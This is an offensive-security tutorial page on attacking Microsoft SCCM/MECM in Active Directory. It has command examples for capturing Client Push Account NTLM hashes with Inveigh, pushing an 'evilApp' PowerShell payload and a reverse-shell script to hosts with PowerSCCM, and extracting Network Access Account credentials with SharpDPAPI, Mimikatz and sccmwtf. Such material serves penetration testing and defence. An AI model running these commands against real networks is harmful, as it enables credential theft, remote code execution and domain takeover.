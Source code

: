 # SCCM / MECM

## Theory

The **System Center Configuration Manager** (SCCM), now known as **Microsoft Endpoint Configuration Manager** (MECM), is a software developed by Microsoft to help system administrators manage the servers and workstations in large Active Directory environments. It provides lots of features including remote control, patch management, task automation, application distribution, hardware and software inventory, compliance management and security policy administration.

When SCCM is installed in an Active Directory, the clients can be deployed on the workstations by six different ways:

* Client push installation
* Software update-based installation
* Group Policy installation
* Manual installation
* Logon script installation
* Package and program installation

<details>

<summary>Client push installation</summary>

The first way of deploying SCCM is the **Client push installation** method, which is the default one and the least secure.&#x20;

This installation will use "client push accounts". They are service acounts with local administrative rights on the assets where SCCM will have to deploy some stuff. The system administrator creates groups of endpoints and for each of those, one "client push account". For each group, only one "client push account" can authenticate with administrator rights on the assets of this group. Thus, if an account is compromised, only the members of the corresponding group can be compromised in turn.

When the SCCM deployment is launched, it will basically try to authenticate with each client push accounts on each asset, and if the authentication fails, SCCM will try the next account in line. When the authentication succeeds, it moves to the following asset, and so on until the deployment is complete.

SCCM deployment via **Client push installation** is service accounts credentials spraying in a nutshell.

</details>

## Practice

### Client push installation

With a compromised machine in an Active Directory where SCCM is deployed via **Client Push Accounts** on the assets, it is possible to have the "Client Push Account" authenticate to a remote resource and, for instance, retrieve an NTLM response (i.e. [NTLM capture](ntlm/capture.md)). The "Client Push Account" usually has local administrator rights to a lot of assets.

In some case, the "Client Push Accounts"  could even be part of the Domain Admins group, leading to a complete takeover of the domain.

In order to retrieve the Client Push Account's authentication, all local admins must be removed from the compromised host, and a listener can be started on it with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (C# or Powershell).

```powershell
# 1. Remove all the local Administrators on the compromised machine
net user <username> /delete

# 2. Listen for authentication with Inveigh
.\Inveigh.exe -Challenge 1122334455667788
```

Once the capturing/relaying listeners are started, the tester can wait for the Client Push Accounts to authenticate automatically. Hopefully, NTLMv1 will be used, allowing for easier NTLM cracking. There are other alternatives to cracking the response, like [relaying the authentication](ntlm/relay.md).

### Applications and scripts deployment

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.&#x20;

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

### SCCM credentials extraction with DPAPI

When non-domain joined computers need to retrieve software from a SCCM server, the SCCM endpoint will deploy **Network Access Accounts (NAA)** on them. The NAAs do nothing on the hosts but access resources across the network. Normally, the NAA account [should](https://docs.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/accounts#network-access-account) be configured with the least privilege and does not have interactive logon rights. But it appears that sometimes domain accounts are used for this task.

The NAA policy, including the NAA's credentials, is sent by the SCCM server and stored on the client machine, encrypted via DPAPI with SYSTEM's master key. With a SYSTEM (i.e. local admin) access on the target, it is possible to decipher the policy and retrieve the credentials.

{% hint style="info" %}
It appears that even after changing the NAA account or uninstalling the SCCM client, the credentials are still present on the disk.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to decipher the WMI blob via DPAPI and retrieve the stored credentials. Additionally, the tool can also extract SYSTEM DPAPI credentials.

```bash
SystemDPAPIdump.py -creds -sccm 'DOMAIN/USER:Password'@'target.domain.local'
```
{% endtab %}

{% tab title="Windows" %}
With an elevated session on the target machine, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used to extract the SCCM credentials on the host.

```powershell
.\SharpDPAPI.exe SCCM
```

The tool [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for the same purpose with [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) , [`token::elevate`](https://tools.thehacker.recipes/mimikatz/modules/token/elevate) and [`dpapi::sccm`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/sccm).

```batch
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```
{% endtab %}
{% endtabs %}

### Network Access Account deobfuscation

A computer account has the ability to register itself with the SCCM server and request the encrypted NAA policies, decrypt them, deobfuscate them and retrieve the NAA's credentials in them.

The first step consists in controlling a computer account. One can be [created](domain-settings/machineaccountquota.md#create-a-computer-account) if the [Machine Account Quota](domain-settings/machineaccountquota.md) attribute is greater than 0.

{% content-ref url="domain-settings/machineaccountquota.md" %}
[machineaccountquota.md](domain-settings/machineaccountquota.md)
{% endcontent-ref %}

#### Enroll and retrieve the NAA policy

The SCCM attack can then be performed with [sccmwtf](https://github.com/xpn/sccmwtf) (Python). The new client to spoof doesn't need to be the previously created computer account (useful if you only have an existing computer account already enrolled).

The positional arguments are as follows:

* Spoof Name&#x20;
* Spoof FQDN&#x20;
* Target SCCM&#x20;
* Computer account username&#x20;
* Computer account password

{% code overflow="wrap" %}
```bash
sccmwtf.py "fakepc" "fakepc.domain.local" 'SCCM-Server' 'DOMAIN\ControlledComputer$' 'Password123!'
```
{% endcode %}

{% hint style="warning" %}
The tool author ([Adam Chester](https://twitter.com/\_xpn\_)) warns not to use this script in production environments.
{% endhint %}

#### Retrieve the credentials

Then, on a Windows machine, the two blobs (`NetworkAccessUsername` and `NetworkAccessPassword`) can be retrieved in plaintext by indicating only the hexadecimal part.

```powershell
.\policysecretunobfuscate.exe <blob_hex_1>
.\policysecretunobfuscate.exe <blob_hex_2>
```

### SCCM Site Takeover

// [https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)

## Resources

{% embed url="https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts" %}

{% embed url="https://enigma0x3.net/2016/02/" %}

{% embed url="https://docs.microsoft.com/en-us/powershell/module/configurationmanager/?view=sccm-ps" %}

{% embed url="https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9" %}

{% embed url="https://blog.xpnsec.com/unobfuscating-network-access-accounts/" %}
